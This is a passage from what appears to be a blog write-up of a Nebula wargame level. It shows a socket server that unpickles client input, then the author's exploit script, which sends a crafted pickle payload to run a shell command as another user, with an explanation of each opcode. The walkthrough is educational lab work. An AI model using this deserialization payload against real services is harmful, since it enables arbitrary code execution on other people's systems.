   for i in obj:
    clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
    clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
    server(clnt)
    exit(1)
{{< / highlight >}}

Here `pickle` provides us with the possibility of an exploit to run our own code. There's lots to read on the security issues with `pickle`, but to be fair it was never meant to be secure in itself. [BH_US_11_Slaviero_Sour_Pickles_WP.pdf](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf) and [BH_US_11_Slaviero_Sour_Pickles_Slides.pdf](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf) are a good source for more info.

Right, so my plan is to get a shell as *flag17* and get the flag from there. Using pickle's opcodes I can construct a string that will run `getflag` from the `pickle.loads` call as user *flag17*. So before I started constructing this I copied the script and ran it as *level17* on a different port in order to debug and see what's going on. Once I was happy with my exploit code I changed the port to `10007` and ran it to get the flag.

{{< highlight python >}}
#!/bin/python
import socket

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.connect(('localhost', 10007))
print skt
data = skt.recv(1024)
print data
sent = skt.send("cos\nsystem\n(S'/bin/bash -c /bin/getflag > /tmp/f17pwned'\ntR\n")
print sent
data = skt.recv(1024)
print data
skt.close()
{{< / highlight >}}

I'll explain the pickle string a bit: 

* `cos\nsystem` resolves the classname and calls it
* `(` is the marker
* `S'/bin/bash -c /bin/getflag > /tmp/f17pwned'\n` this is our command we want to run
* `tR\n` - `t` puts the string onto the stack and `R` pops this tuple and calls it, thus executing our lovingly crafted payload.

Once run it looks like it worked so let's be sure

{{< highlight console >}}
level17@nebula:/tmp/flag17$ cat ../f17pwned
You have successfully executed getflag on a target account
{{< / highlight >}}

